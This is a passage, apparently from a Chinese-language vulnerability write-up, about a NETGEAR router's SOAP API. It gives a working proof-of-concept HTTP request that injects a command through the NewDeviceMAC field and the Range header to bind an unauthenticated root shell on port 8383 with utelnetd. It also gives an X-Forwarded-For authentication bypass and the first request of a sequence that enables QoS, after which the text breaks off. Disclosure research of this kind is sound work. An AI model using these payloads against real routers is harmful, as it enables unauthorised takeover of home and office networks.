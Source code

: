 经过分析后，我们发现SOAP API会多次调用shell，其中有些还包含比较危险的用户输入。虽然大多数危险调用无法直接访问，我们还是观察到设备会通过`NewDeviceMAC`元素，使用`AdvancedQoS:1#GetCurrentBandwidthByMAC`来传递用户输入数据。然而这个输入数据比较受限，存在如下限制条件：
- 最多可以使用17个字符；
- 至少要包括一个冒号；
- 必须使用单引号和元字符才能跳出已有的命令来执行；
- 必须处理注入点之后残留的父级命令；
- payload必须全部大写。
尽管存在这些限制条件，我们还是可以通过该漏洞获得交互式访问root shell。由于web服务器中HTTP头中会将某些全大写字段与一些环境变量绑定在一起，因此我们可以将payload插入这种头部，然后在注入点引用这些环境变量。如下所示，我们可以通过这个PoC在8383端口上绑定生成未经身份认证的监听端。需要注意的是，这里的`SessionID`元素并不固定，可以设置为任意值。

```
POST /soap/server_sa/ HTTP/1.1
SOAPAction: urn:NETGEAR-ROUTER:service:AdvancedQoS:1#GetCurrentBandwidthByMAC
X-Forwarded-For: 192.168.1.1
Range: utelnetd -d -p 8383 -l /bin/sh

&lt;?xml version="1.0" encoding="utf-8" standalone="no"?&gt;
&lt;SOAP-ENV:Envelope&gt;
&lt;SOAP-ENV:Header&gt;
&lt;SessionID&gt;424F474F4E424F474F4E&lt;/SessionID&gt;
&lt;/SOAP-ENV:Header&gt;
&lt;SOAP-ENV:Body&gt;
&lt;M1:GetCurrentBandwidthByMAC&gt;
  &lt;NewDeviceMAC&gt;:';$HTTP_RANGE ##&lt;/NewDeviceMAC&gt;
&lt;/M1:GetCurrentBandwidthByMAC&gt;
&lt;/SOAP-ENV:Body&gt;
&lt;/SOAP-ENV:Envelope&gt;

```

虽然这种攻击要求设备启用QoS以及高级QoS服务，并且要通过身份认证，但我们可以在使用出厂设置的目标设备上绕过这些限制，完成攻击任务。我们可以使用前面提到的`X-Forwarded-For`方法绕过认证，只要添加一个`X-Forwarded-For`头，将值设置为路由器的LAN口IP地址（`192.168.1.1`）即可。通过这种认证绕过技术，攻击者可以通过如下4个步骤启用QoS以及高级QoS服务：

请求1:

```
POST /soap/server_sa/ HTTP/1.1
SOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#ConfigurationStarted
X-Forwarded-For: 192.168.1.1



&lt;?xml version="1.0" encoding="utf-8" standalone="no"?&gt;
&lt;SOAP-ENV:Envelope&gt;
&lt;SOAP-ENV:Header&gt;
&lt;SessionID&gt;424F474F4E424F474F4E&lt;/SessionID&gt;
&lt;/SOAP-ENV:Header&gt;
&lt;SOAP-ENV:Body&gt;
&lt;M1:ConfigurationStarted&gt;
   &lt;NewSessionID&gt;424F474F4E424F474F4E&lt;/NewSessionID&gt;
&lt;/M1:ConfigurationStarted&gt;
&lt;/SOAP-ENV:Body&gt;
&lt;/SOAP-ENV:Envelope&gt;

```
